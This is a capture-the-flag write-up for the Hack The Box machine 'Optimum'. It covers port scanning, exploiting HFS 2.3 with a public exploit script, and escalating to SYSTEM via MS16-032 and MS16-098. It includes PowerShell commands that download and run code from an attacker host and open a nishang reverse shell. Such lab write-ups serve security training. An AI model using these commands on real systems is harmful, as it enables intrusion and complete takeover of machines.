







# Optimum

## scanning

```bash
sudo nmap -p- -sS --open -vvv --min-rate 5000 10.10.10.8 -oG allPorts -n -Pn
nmap -sC -sV -p 80 -Pn -n 10.10.10.8 -oN targeted
```


## 80

```bash
searchsploit hfs 2.3
searchsploit -m windows/remote/39161.py
```

we use the exploit using 3 terminals with this command
```bash
python 39161.py
sudo python3 -m http.server 80
sudo nc -lvp 443
```
it should be seen like this.


yo probably should use more than one time the script

``type C:\Users\kostas\Desktop\user.txt.txt``


## privilege escalation

we use systeminfo in the windows exploit suggester

```bash
./windows-exploit-suggester.py --database 2020-10-25-mssb.xls --systeminfo /home/gato/Documentos/htb/Retired/Optimum/content/systeminfo.txt
```


### MS16-032

MS16-032 empire
https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1
```bash
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1
```
we add this line to the exploit
``Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.27/Invoke-PowerShellTcp.ps1')"``


Powershell tcp (nishang)
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
we add this line to the script
``Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.27 -Port 6666``

Now we use a python http server and listen in port 6666 with nc
```bash
sudo python3 -m http.server 80

nc -lvp 6666
```

on victim machine
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.27/Invoke-MS16032.ps1');
```


we have a problem because we are using nc with 32 bits and the machine is 64 bits, so we are going to use powershell from 32bits of the victim and we use this command
```
C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.14.27/Invoke-MS16032.ps1');
```

Now we are nt authority\system ;)

### MS16-098

we see in windows exploit suggester
https://www.exploit-db.com/exploits/41020/





```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```
we use http server of python

```bash
sudo python3 -m http.server 80
```

victim machine
```bash
powershell wget http://10.10.14.27/41020.exe -OutFile 41020.exe
41020.exe
```

nt authority\system again uwu

### flags

```
type C:\Users\kostas\Desktop\user.txt.txt
type C:\Users\Administrator\Desktop\root.txt
```